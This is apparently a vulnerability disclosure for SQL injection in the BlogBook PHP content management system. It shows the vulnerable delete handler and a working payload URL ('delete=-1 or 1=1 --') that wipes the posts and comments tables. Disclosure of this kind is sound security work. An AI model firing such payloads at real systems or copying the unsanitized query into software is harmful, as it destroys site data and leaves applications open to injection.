


# BlogBook /admi/posts.php delete_post delete Parameter SQL Injection

**Exploit Title: BlogBook /admin/posts.php delete_post delete Parameter SQL**

**Vendor Homepage: [chaitak-gorai/blogbook: Blogbook- Content Management System Project](https://github.com/chaitak-gorai/blogbook)**

**Software Link: [chaitak-gorai/blogbook: Blogbook- Content Management System Project](https://github.com/chaitak-gorai/blogbook)**

**Software: blogbook**

**Tested on: Windows,PHP 5.6.9 ,Apache 2.4.39 ,MySQL 8.0.12**

## Vulnerability Overview

The BlogBook application is vulnerable to SQL injection in its post deletion mechanism. When a delete GET parameter is supplied, its value is used unsanitized in two separate DELETE SQL queries: one targeting the posts table and another targeting the comments table based on the same post_id. This allows an attacker (potentially requiring administrative privileges) to inject malicious SQL. A crafted payload, such as one evaluating to a universally true condition (e.g., 1 OR 1=1), can bypass the intended single-post deletion and result in the deletion of all entries in both the posts and comments tables, causing significant data integrity and availability issues.

## Vulnerability Point

`blogbook-main/admin/view_all_posts.php:247`

## Vulnerable Parameter

`delete`

## Vulnerable Code

```php
if(isset($_GET['delete'])){
    $dpost_id=$_GET['delete'];
    $query="DELETE FROM posts WHERE post_id={$dpost_id}";
    $delete_post_query=mysqli_query($connection,$query);
	$comments_query="DELETE FROM comments WHERE comment_post_id={$dpost_id}";
	$delete_post_comments_query=mysqli_query($connection,$comments_query);
    header("location:posts.php");
}
```
## Payload

`http://localhost/admin/posts.php?delete=-1%20or%201=1%20--`




